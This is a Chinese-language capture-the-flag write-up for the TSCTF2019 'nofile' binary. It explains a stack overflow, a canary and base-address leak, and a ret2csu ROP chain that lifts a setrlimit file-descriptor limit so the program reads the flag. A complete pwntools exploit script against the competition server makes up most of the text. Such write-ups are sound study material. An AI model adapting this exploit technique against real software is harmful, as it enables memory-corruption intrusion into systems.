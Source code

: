 ```yaml
---
title: nofile
categories:
- TSCTF2019
---
```

# tsctf2019 -> nofile

## 程序逻辑

程序中main函数里首先执行Init，Init()使用setrlimit()限制了文件的描述符，导致无法打开文件分配文件描述符。程序提供了vulnfunc读取flag。

在main函数里，可以读取5个字节整数长度的数据，这里有栈溢出。之后可以重新构造数据，二次溢出

![main](./1.jpg)

![init](./2.jpg)

![vulnfunc](./3.jpg)

## 漏洞利用

程序开了地址随机化和canary，要先泄露程序加载基地址和canary。观察一下发现rbp-8(canary)后面可泄露程序加载基址，可以构造'a'*0x18+'\n'，还原canary并得到程序加载基址。

之后拿csu的gadgets依次执行getrlimit(RLIMIT_NOFILE,bss_addr),read(0,bss_addr,100)输入构造的假的rlimit结构体，其rlimits.rlim_cur为1024。

read(0,bss_addr+0x30,100)读取"flag",setrlimit(RLIMIT_NOFILE, bss_addr)设置fd软限制为1024

最后用pop_rdi_ret把bss+0x30作为参数传给vuln，调用这个函数即可读取flag

![stack](./4.jpg)


## exp.py

```py
#coding=utf-8
from pwn import *
debug = 0
context.update(arch='amd64',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
p = process('./nofile')
elf = ELF('./nofile')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
if debug:
    p = process('./nofile')
    gdb.attach(p,'b *0x555555554dda')
else:
    p = remote('10.112.100.47',6135)

def csu(base,rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = ""
    csu_end_addr = base + 0xdda
    csu_front_addr = base + 0xdc0
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    return payload
    #sleep(1)

def exp():
    '''
    canary = 0x555555554d00
    payload = 'b'*0x20 + p64(canary) + 'a'*8 + '\x13\x0c'
    p.recvuntil('How long is your Name? 2,3or4?\n')
    p.sendline(str(payload))
    '''
    #leak canary
    
    pop_rdi_ret = 0xde3
    p.recvuntil('How long is your Name? 2,3or4?\n')
    p.sendline('24')
    p.recvline()
    p.sendline('a'*24)
    p.recvline()
    canary = u64(('\x00'+p.recv(7)).ljust(8,'\x00'))
    log.success('canary => ' + hex(canary))
    main_base = u64(p.recv(6).ljust(8,'\x00')) - 0xd80
    log.success('main base => ' + hex(main_base))
    #overwrite
    p.recvline()
    p.send('n')
    #rop = ROP('./nofile')
    #print rop.setrlimit(7,p64(1024))
    pop_rdi_ret += main_base
    print 'pop rdi ret ' + hex(pop_rdi_ret)
    vuln = main_base + 0xc13
    call_setrlimit = main_base + 0xb3e
    bss_addr = elf.bss() + main_base + 0x30
    read_got = elf.got['read'] + main_base
    setrlimit_got = elf.got['setrlimit'] + main_base
    getrlimit_got = elf.got['getrlimit'] + main_base
    ret_addr = 0x8f1 + main_base
    rops = csu(main_base,0,1,getrlimit_got,0,bss_addr,7,ret_addr)

    payload = 'b'*0x18 + p64(canary) + 'a'*8 + rops
    rops = csu(main_base,0,1,read_got,100,bss_addr,0,ret_addr)
    payload += rops
    rops = csu(main_base,0,1,read_got,100,bss_addr+0x30,0,ret_addr)
    payload += rops
    payload += csu(main_base,0,1,setrlimit_got,0,bss_addr,7,pop_rdi_ret)
    payload += p64(bss_addr+0x30) + p64(vuln)
    p.recvline()
    p.sendline(str(len(payload)))
    p.recvline()
    #p.sendline(str(len(payload)))
    p.sendline(payload)
    raw_input()
    fake_struct = p64(1024)
    p.send(fake_struct)
    raw_input()
    p.send('flag\x00\x00\x00\x00')
    
    p.interactive()
exp()

```
